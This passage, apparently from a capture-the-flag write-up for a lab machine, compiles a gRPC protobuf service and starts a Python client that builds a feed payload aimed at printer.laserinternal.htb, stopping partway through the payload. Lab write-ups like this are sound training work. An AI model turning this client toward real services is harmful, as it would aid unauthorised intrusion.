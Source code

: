 When defining variables in a message, each should have a [unique integer number](https://developers.google.com/protocol-buffers/docs/proto3#assigning_field_numbers).

To build the necessary Python files, I’ll need the `grpcio-tools` package (`python3 -m pip install grpcio-tools`), and then I can run:

```

root@kali# python3 -m grpc_tools.protoc -I . --python_out=. --grpc_python_out=. feedengine.proto
/usr/lib/python3.8/runpy.py:127: RuntimeWarning: 'grpc_tools.protoc' found in sys.modules after import of package 'grpc_tools', but prior to execution of 'grpc_tools.protoc'; this may result in unpredictable behaviour
  warn(RuntimeWarning(msg))

```

Now there are two new Python files, `feedengine_pb2.py` and `feedengine_pb2_grpc.py`:

```

root@kali# ls
feedengine_pb2_grpc.py  feedengine_pb2.py  feedengine.proto

```

Those files define classes that I can import into a client. There’s a class in `feedengine_pb2_gprc.py` called `PrintStub` (print from the service I defined in the Protobuf file):

```

class PrintStub(object):
    """Missing associated documentation comment in .proto file."""

    def __init__(self, channel):
        """Constructor.

        Args:
            channel: A grpc.Channel.
        """
        self.Feed = channel.unary_unary(
                '/Print/Feed',
                request_serializer=feedengine__pb2.Content.SerializeToString,
                response_deserializer=feedengine__pb2.Data.FromString,
                )

```

#### Create Client

Following the [tutorial](https://grpc.io/docs/languages/python/basics/#client), first I need to create a stub by importing the files I just created, creating a `channel`, and passing that to the `PrintStub`:

```

import base64
import grpc
import pickle
import feedengine_pb2
import feedengine_pb2_grpc

payload = """{
    "version": "v1.0",
    "title": "Printer Feed",
    "home_page_url": "http://printer.laserinternal.htb/",
    "feed_url": "http://printer.laserinternal.htb/feeds.json",
    "items": [
        {
            "id": "2",
```